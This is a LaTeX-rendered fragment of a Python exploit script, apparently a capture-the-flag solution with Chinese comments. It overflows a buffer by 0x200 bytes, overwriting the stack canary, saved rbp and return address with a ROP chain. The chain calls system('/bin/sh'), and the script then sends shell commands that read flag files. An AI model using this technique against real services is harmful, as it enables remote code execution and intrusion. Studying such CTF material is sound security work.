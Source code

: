 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# 5) APPEND\#2：L = 0x200 → 寫 0x200 bytes，蓋掉 canary/rbp/ret 並鋪好 ROP}
\NormalTok{payload  }\OperatorTok{=} \BuiltInTok{bytearray}\NormalTok{(}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x02}\StringTok{\textquotesingle{}} \OperatorTok{+} \StringTok{b\textquotesingle{}B\textquotesingle{}} \OperatorTok{*} \BaseNTok{0x108}\NormalTok{)   }\CommentTok{\# state[0..0x107]}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(canary)                          }\CommentTok{\# state[0x108]}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(saved\_rbp)                       }\CommentTok{\# state[0x110]}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(chain[}\DecValTok{0}\NormalTok{])                        }\CommentTok{\# state[0x118] ← 回傳位址（= chain[0]）}
\ControlFlowTok{for}\NormalTok{ i, w }\KeywordTok{in} \BuiltInTok{enumerate}\NormalTok{(chain[}\DecValTok{1}\NormalTok{:]):               }\CommentTok{\# state[0x120] ← 鏈本體（chain[1] 開始）}
\NormalTok{    payload }\OperatorTok{+=}\NormalTok{ p64(w)}
\NormalTok{payload }\OperatorTok{+=} \StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x00}\StringTok{\textquotesingle{}} \OperatorTok{*}\NormalTok{ (}\BaseNTok{0x1f0} \OperatorTok{{-}} \BuiltInTok{len}\NormalTok{(payload))}
\NormalTok{payload }\OperatorTok{+=} \StringTok{b\textquotesingle{}/bin/sh}\CharTok{\textbackslash{}x00}\StringTok{\textquotesingle{}}                       \CommentTok{\# .bss:0x4a54}
\NormalTok{payload }\OperatorTok{+=} \StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x00}\StringTok{\textquotesingle{}} \OperatorTok{*}\NormalTok{ (}\BaseNTok{0x200} \OperatorTok{{-}} \BuiltInTok{len}\NormalTok{(payload))     }\CommentTok{\# 補滿 0x200}
\ControlFlowTok{assert} \BuiltInTok{len}\NormalTok{(payload) }\OperatorTok{==} \BaseNTok{0x200}\NormalTok{, }\BuiltInTok{len}\NormalTok{(payload)      }\CommentTok{\# 安全網：長度錯了就早點炸}
\NormalTok{io.send(frame(}\BuiltInTok{bytes}\NormalTok{(payload)))}
\NormalTok{st, \_ }\OperatorTok{=}\NormalTok{ recv\_frame(io)}\OperatorTok{;} \ControlFlowTok{assert}\NormalTok{ st }\OperatorTok{==} \DecValTok{0}

\CommentTok{\# 6) EJECT：離開迴圈 → 0x1865 的 leave;ret（金絲雀檢查通過）→ ROP → system("/bin/sh")}
\NormalTok{io.send(frame(}\BuiltInTok{bytes}\NormalTok{([OP\_EJECT])))}
\NormalTok{recv\_frame(io)                                  }\CommentTok{\# EJECT 的 ack，接著就是 shell}

\CommentTok{\# 7) 下指令、收 flag}
\NormalTok{io.send(}\StringTok{b\textquotesingle{}cat flag.txt /flag /home/*/flag.txt 2\textgreater{}/dev/null; ls {-}la; id; echo DONE}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{)}
\NormalTok{out }\OperatorTok{=}\NormalTok{ io.recvrepeat(}\DecValTok{6}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\end{document}
